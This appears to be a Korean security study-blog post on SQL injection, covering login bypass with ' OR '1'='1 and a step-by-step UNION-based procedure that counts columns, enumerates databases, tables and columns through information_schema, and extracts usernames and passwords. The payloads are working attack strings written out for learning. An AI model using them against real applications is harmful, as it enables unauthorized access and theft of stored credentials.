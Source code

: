```yaml
---
title: "Week 6 - Union Injection"
date: 2025-05-17
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# 1. SQL Injection: 인증 우회 및 데이터 추출

SQL Injection은 웹 애플리케이션에서 사용자 입력값이 안전하게 처리되지 않을 때 발생하는 취약점입니다. 이 포스트에서는 인증 우회를 포함한 SQL Injection을 통해 **데이터를 추출하는 절차**를 정리합니다.

## 1.1 SQL Injection의 목적

보통 SQL Injection은 다음 두 가지 목적으로 활용됩니다:

- **인증 우회**: 로그인 등의 인증 시스템을 무력화
- **데이터 추출**: 데이터베이스에 저장된 민감한 정보를 외부로 노출

---

# 2. 인증 우회 예시

로그인 로직이 다음과 같이 구현되어 있다고 가정합니다:

```sql
SELECT * FROM user WHERE id = 'doldol' AND pass = '';
이때 다음과 같은 입력을 하면 항상 참이 되어 인증이 우회됩니다:

sql
복사
편집
' OR '1'='1
최종 쿼리:

sql
복사
편집
SELECT * FROM user WHERE id = 'doldol' AND pass = '' OR '1'='1';
3. 데이터 추출이 가능한 조건
데이터를 추출하기 위해선 다음 두 조건 중 하나를 만족해야 합니다:

조건	예시
웹페이지에 데이터가 출력된다	게시판, 검색결과 등
웹페이지에 데이터가 출력되지 않는다	로그인, 아이디 중복체크 등

이번 포스트에선 화면에 데이터가 출력되는 경우를 중심으로 설명합니다.

4. UNION을 이용한 SQL Injection
UNION 키워드를 이용하면 두 개 이상의 SELECT 결과를 합쳐서 출력할 수 있습니다.

예시:

sql
복사
편집
SELECT pass FROM member
UNION
SELECT id FROM member;
또는:

sql
복사
편집
SELECT id, pass FROM member
UNION
SELECT 'normaltic', 'test';
❗ 주의: UNION을 사용할 때는 앞뒤 SELECT문의 컬럼 개수가 같아야 합니다.

5. SQL Injection 단계별 분석
1단계. Injection 포인트 확인
사용자 입력값이 SQL 쿼리에 반영되고 있는지 확인

페이지 출력 결과를 통해 추측

2단계. 컬럼 개수 찾기
sql
복사
편집
' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #
...
오류가 발생하지 않는 최대 인덱스를 통해 컬럼 수 추정 (예: 4개)

3단계. 출력 컬럼 위치 찾기
sql
복사
편집
' UNION SELECT 1,2,3,4 #
어느 숫자가 실제 웹페이지에 출력되는지 확인

출력되는 위치에 민감 정보 삽입 가능

4단계. 현재 DB 이름 확인
sql
복사
편집
' UNION SELECT 1, database(), 3, 4 #
5단계. 테이블 이름 확인
sql
복사
편집
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema = 'DB이름' #
6단계. 컬럼 이름 확인
sql
복사
편집
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name = '테이블이름' #
7단계. 데이터 추출
sql
복사
편집
' UNION SELECT 1, id, pass, 4 FROM member #
